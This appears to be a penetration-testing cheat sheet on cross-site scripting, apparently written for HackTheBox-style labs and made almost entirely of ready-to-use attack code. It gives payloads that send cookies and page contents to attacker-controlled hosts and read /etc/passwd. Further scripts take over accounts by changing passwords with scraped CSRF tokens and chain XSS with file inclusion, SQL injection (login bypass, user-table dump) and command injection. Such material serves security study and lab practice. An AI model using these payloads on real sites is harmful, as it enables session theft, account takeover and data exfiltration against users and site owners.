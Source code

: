 ```yaml
---
description: >-
  As web applications grow in complexity and prevalence, so do their
  vulnerabilities. One of the most common types of web application
  vulnerabilities is Cross-Site Scripting (XSS).
---
```


# XSS

#### XSS payloads

```bash
# Check for xss file upload vulnerability
echo '<SCRIPT SRC=http://10.10.14.22:9090/test></SCRIPT>' > test2.png

# Load remote script
<script src="http://OUR_IP/script.js"></script>

# Send cookie
<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>
<script>var i=new Image(); i.src="http://10.10.14.8/?cookie="+btoa(document.cookie);</script>

# Check with basic payload
<script>alert(window.origin)</script>

# HTML based
<img src="" onerror=alert(window.origin)>

# Change background color
<script>document.body.style.background = "#141d2b"</script>
```

#### Read files

```bash
# Read file
<script> x=new XMLHttpRequest; x.onload=function(){document.write(this.responseText)}; x.open('GET','file:///etc/passwd');x.send(); </script>

# Read file base64
<script> x=new XMLHttpRequest; x.onload=function(){document.write(btoa(this.responseText))}; x.open('GET','file:///etc/passwd');x.send(); </script>
```

#### Steal cookie

```javascript
<img src=x onerror="fetch('http://10.10.11.11/api/test').then(r => r.text()).then(data => fetch(`http://10.10.14.9/?data=${btoa(data)}`))">
```

```bash
# On target
<script src="http://mczen.xyz/exploit"></script>

# On attacker machine
window.location = "http://target.xzy/cookiestealer?c=" + document.cookie;
```

#### Exfiltrate data

{% hint style="warning" %}
GET parameter is bad practice due to the limited URL length, use POST with longer data.
{% endhint %}

Exfiltrate data from the victim's user context, here home.php. If the endpoint's fetch request does not include credentials remove `xhr.withCredentials = true;`.

Host script in script.js and get with

```html
<script src="http://10.10.10.10/script.js"></script>
```

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', '/home.php', false);
xhr.withCredentials = true;
xhr.send();

var exfil = new XMLHttpRequest();
exfil.open("GET", "https://10.10.14.144:4443/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```

#### Account takover

If updating password doesn not require old password we can change victims password by making a GET request where we get the CSRF token, extract it and POST request to change victim's password.

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', '/home.php', false);
xhr.withCredentials = true;
xhr.send();
var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
var csrftoken = encodeURIComponent(doc.getElementById('csrf_token').value);

// change PW
var csrf_req = new XMLHttpRequest();
var params = `username=admin&email=admin@vulnerablesite.htb&password=pwned&csrf_token=6079fb6a924fc0f3128e7d2014d0e7c5`;
csrf_req.open('POST', '/home.php', false);
csrf_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
csrf_req.withCredentials = true;
csrf_req.send(params);
```

### <mark style="color:yellow;">XSS chained with LFI</mark>

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', '/admin.php?view=../../../../etc/passwd', false);
xhr.withCredentials = true;
xhr.send();

var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/lfi?r=" + btoa(xhr.responseText), false);
exfil.send();
```

### <mark style="color:yellow;">XSS chained with SQL injection</mark>

Using xxs we found an endpoint at http://internal.vulnerablesite.htb. First exfiltrate the data:

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://internal.vulnerablesite.htb/', false);
xhr.send();

var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```

#### Test for SQL injection

```javascript
var xhr = new XMLHttpRequest();
var params = `uname=${encodeURIComponent("'test")}&pass=x`;
xhr.open('POST', 'http://internal.vulnerablesite.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);

var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```

#### SQL authentication bypass

```javascript
var xhr = new XMLHttpRequest();
var params = `uname=${encodeURIComponent("' OR '1'='1' -- -")}&pass=x`;
xhr.open('POST', 'http://internal.vulnerablesite.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);

var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```

#### Dump user table

```javascript
var xhr = new XMLHttpRequest();
var params = `uname=${encodeURIComponent("' UNION SELECT id,username,password,info FROM users-- -")}&pass=x`;
xhr.open('POST', 'http://internal.vulnerablesite.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);

var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```

### <mark style="color:yellow;">XSS chained RCE</mark>

If getting a response like `curl: (6) Could not resolve host: doesnotexist.htb` after data exfil RCE might be possible.

```javascript
var xhr = new XMLHttpRequest();
var params = `webapp_selector=${encodeURIComponent("| id")}`;
xhr.open('POST', 'http://internal.vulnerablesite.htb/check', false);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(params);

var exfil = new XMLHttpRequest();
exfil.open("GET", "http://exfiltrate.htb/exfil?r=" + btoa(xhr.responseText), false);
exfil.send();
```
